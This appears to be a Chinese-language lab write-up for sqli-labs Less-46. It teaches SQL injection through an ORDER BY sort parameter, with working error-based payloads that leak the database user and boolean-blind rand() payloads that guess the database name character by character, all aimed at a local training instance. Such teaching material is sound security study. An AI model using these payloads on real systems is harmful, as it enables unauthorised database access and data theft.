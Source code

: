从本关开始，我们开始学习order by 相关注入的知识。

本关的sql语句为 s q l \=" S E L E C T ∗ F R O M u s e r s O R D E R B Y id";

尝试?sort=1 desc或者asc，显示结果不同，则表明可以注入。（升序or降序排列）

从上述的sql语句中我们可以看出，我们的注入点在order by后面的参数中，而order by不同于的我们在where后的注入点，不能使用union等进行注入。如何进行order by的注入，我们先来了解一下mysql官方select的文档。

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811214206968-1040995908.png)

我们可利用order by后的一些参数进行注入。

首先

（1）、order by 后的数字可以作为一个注入点。也就是构造order by 后的一个语句，让该语句执行结果为一个数，我们尝试

[http://127.0.0.1/sqli-labs/Less-46/?sort=right(version(),1)](http://127.0.0.1/sqli-labs/Less-46/?sort=right(version(),1)%EF%BC%8C)

没有报错，但是right换成left都一样，说明数字没有起作用，我们考虑布尔类型。此时我们可以用报错注入和延时注入。

此处可以直接构造 ?sort= 后面的一个参数。此时，我们可以有三种形式，

①直接添加注入语句，?sort=(select \*\*\*\*\*\*)

②利用一些函数。例如rand()函数等。?sort=rand(sql语句)

Ps：此处我们可以展示一下rand(ture)和rand(false)的结果是不一样的。

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811214208484-226735019.png)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811214209828-233732306.png)

③利用and，例如?sort=1 and (加sql语句)。

同时，sql语句可以利用报错注入和延时注入的方式，语句我们可以很灵活的构造。

**报错注入例子**


```
[http://127.0.0.1/sqli-labs/Less-46/?sort=(select%20count(\*)%20from%20information\_schema.columns%20group%20by%20concat(0x3a,0x3a,(select%20user()),0x3a,0x3a,floor(rand()\*2)))](http://127.0.0.1/sqli-labs/Less-46/?sort=(select%20count(*)%20from%20information_schema.columns%20group%20by%20concat(0x3a,0x3a,(select%20user()),0x3a,0x3a,floor(rand()*2))))
```


![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811214212515-1640673456.png)

上述例子，可以看到root@localhost的用户名

接下来我们用rand()进行演示一下，因为上面提到rand(true)和 rand(false)结果是不一样的。

http://127.0.0.1/sqli-labs/Less-46/?sort=rand(ascii(left(database(),1))=115)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811214214453-318205128.png)

http://127.0.0.1/sqli-labs/Less-46/?sort=rand(ascii(left(database(),1))=116)
